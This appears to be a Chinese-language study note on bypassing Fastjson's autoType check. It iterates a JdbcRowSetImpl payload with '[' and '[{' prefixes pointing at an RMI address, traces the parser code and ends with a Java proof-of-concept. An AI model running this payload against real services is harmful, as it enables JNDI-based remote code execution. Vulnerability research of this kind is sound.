 说希望在pos42的位置有一个`[`

看看pos42是什么

![image-20220302190700128](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302190700128.png)

因为是从0开始的,所以42列应该是`,`，也就是应该在`,`前面加上一个`[`

更换payload为

```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

![image-20220302190832481](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302190832481.png)

在43列的位置希望出现一个`{`

再次更换payload为

```
{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}
```

![image-20220302190933198](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302190933198.png)

## 漏洞分析

前面依然不变一路跟到了loadClass

![image-20220302191317148](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302191317148.png)

处理后获取到了我们的利用类，通过`Array.newInstance.getClass()`来实例化

退出来后会到parseObject

![image-20220302191458484](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302191458484.png)

跟进deserialize，步进到parseArray

![image-20220302191520707](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302191520707.png)

跟进parseArray

![image-20220302191653722](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302191653722.png)

这里就是刚才报错的代码了

只要满足他的要求就能绕过

## 漏洞复现

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
```